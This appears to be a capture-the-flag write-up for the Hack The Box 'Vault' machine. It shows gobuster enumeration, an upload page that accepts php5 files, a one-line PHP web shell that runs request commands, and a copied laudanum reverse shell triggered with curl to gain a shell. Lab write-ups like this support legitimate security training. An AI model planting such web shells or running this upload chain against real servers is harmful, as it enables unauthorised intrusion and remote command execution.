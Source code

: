 # 10 - Web Service

# index.php
![](vx_images/3820358188985.png)



# sparklays

![](vx_images/4884983756508.png)


# Gobuster
```bash
┌─[user@parrot]─[10.10.14.18]─[~/htb/vault]
└──╼ $ gobuster dir -u http://10.10.10.109/sparklays -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x ".php,.txt,.html" -o gobuster/sparklays.log 

/login.php            (Status: 200) [Size: 16]
/admin.php            (Status: 200) [Size: 615]
/design               (Status: 301) [Size: 323] [--> http://10.10.10.109/sparklays/design/]
```


```bash
┌─[user@parrot]─[10.10.14.18]─[~/htb/vault]
└──╼ $ gobuster dir -u sparklays.com/sparklays/design/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x ".php,.txt,.html" -o gobuster/sparklays-design.log -t 100 

/uploads              (Status: 301) [Size: 333] [--> http://sparklays.com/sparklays/design/uploads/]
/design.html          (Status: 200) [Size: 72]                  
```


# design.html
![](vx_images/3016027901351.png)

Change Logo is a link  to changelogo.php

# changelogo.php

![](vx_images/3050192849755.png)



By trial and error, we discover that the page allows php5 file uploads


# exploit.php5
```
┌─[user@parrot]─[10.10.14.18]─[~/htb/vault/exploit]
└──╼ $ cat exploit.php5 
<?php system($_REQUEST["cmd"]); ?>
```


# php5 file upload is successful



![](vx_images/1634257082875.png)


# Code execution

![](vx_images/375706897219.png)



# php-reverse-shell.php5
```
┌─[user@parrot]─[10.10.14.18]─[~/htb/vault/exploit]
└──╼ $ locate php-reverse-shell
/opt/SecLists/Web-Shells/laudanum-0.8/php/php-reverse-shell.php
/usr/share/beef-xss/modules/exploits/m0n0wall/php-reverse-shell.php
/usr/share/laudanum/php/php-reverse-shell.php
/usr/share/laudanum/wordpress/templates/php-reverse-shell.php
/usr/share/webshells/php/php-reverse-shell.php

┌─[user@parrot]─[10.10.14.18]─[~/htb/vault/exploit]
└──╼ $ cp /opt/SecLists/Web-Shells/laudanum-0.8/php/php-reverse-shell.php reverse.php5

┌─[user@parrot]─[10.10.14.18]─[~/htb/vault/exploit]
└──╼ $ curl http://10.10.10.109/sparklays/design/uploads/reverse.php5
```

# Shell

![](vx_images/5024519767405.png)